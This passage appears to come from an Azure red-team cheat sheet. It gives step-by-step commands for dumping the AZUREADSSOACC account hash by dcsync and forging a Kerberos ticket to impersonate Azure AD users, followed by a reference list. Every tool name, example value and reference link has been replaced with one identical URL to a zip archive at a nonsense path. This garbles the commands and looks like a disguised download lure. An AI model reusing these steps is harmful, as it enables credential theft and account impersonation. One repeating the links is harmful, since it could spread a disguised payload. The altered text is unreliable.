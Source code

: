:warning: The password of the AZUREADSSOACC account never changes.

Using [https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip /rc4:f9969e088b2c13d93833d0ce436c76dd
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip preference` to value `https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip,https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## References

* [Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Learn with @trouble1_raunak: Cloud Pentesting - Azure (Illicit Consent Grant Attack) !!](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Pass-the-PRT attack and detection by Microsoft Defender for … - Derk van der Woude - Jun 9](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Azure AD Pass The Certificate - Mor - Aug 19, 2020](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Get Access Tokens for Managed Service Identity on Azure App Service](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Bypassing conditional access by faking device compliance - September 06, 2020 - @DrAzureAD](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Get-AzurePasswords: A Tool for Dumping Credentials from Azure Subscriptions - August 28, 2018 - Karl Fosaaen](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [An introduction to penetration testing Azure - Graceful Security](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Running Powershell scripts on Azure VM - Netspi](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Attacking Azure Cloud shell - Netspi](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
* [Maintaining Azure Persistence via automation accounts - Netspi](https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip)
